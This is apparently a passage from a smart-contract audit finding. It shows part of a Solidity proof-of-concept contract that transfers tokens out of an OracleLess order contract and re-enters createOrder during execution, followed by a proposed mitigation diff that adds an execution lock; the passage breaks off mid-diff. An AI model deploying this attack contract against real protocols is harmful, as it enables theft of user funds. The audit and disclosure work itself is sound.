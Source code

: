  ```solidity
    OracleLess oracleless;
    address owner;

    IERC20 tokenIn;
    IERC20 tokenOut;

    uint256 amountIn;
    uint256 amountOut;
    uint96 public orderId;
    constructor(address _oracleless, address _tokenIn, address _tokenOut, uint256 _amountIn, uint256 _amountOut) {
        oracleless = OracleLess(_oracleless);
        owner = msg.sender;
        tokenIn = IERC20(_tokenIn);
        tokenOut = IERC20(_tokenOut);
        amountIn = _amountIn;
        amountOut = _amountOut;
    }

    function attack() public {
        tokenOut.transferFrom(address(oracleless), owner, amountIn);
        orderId = oracleless.createOrder(tokenIn, tokenOut, amountOut, amountOut, owner, 20, false, "");
    }
}

```

### Mitigation

Consider a different logic for fulfilling user orders. In the case of the above scenario: 

Add locks to `createOrder` and `modifyOrder`.
```diff
contract OracleLess is IOracleLess, Ownable, ReentrancyGuard {
    using SafeERC20 for IERC20;
   .
   .
   .
+   bool public noOrderExecuting = true;
   .
   .
   .
   function createOrder(
        IERC20 tokenIn,
        IERC20 tokenOut,
        uint256 amountIn,
        uint256 minAmountOut,
        address recipient,
        uint16 feeBips,
        bool permit,
        bytes calldata permitPayload
    ) external override returns (uint96 orderId) {
+       require(noOrderExecuting, "Create order not allowed while executing existing order");
   .
   .
   .
   function modifyOrder(
        uint96 orderId,
        IERC20 _tokenOut,
        uint256 amountInDelta,
        uint256 _minAmountOut,
        address _recipient,
        bool increasePosition,
```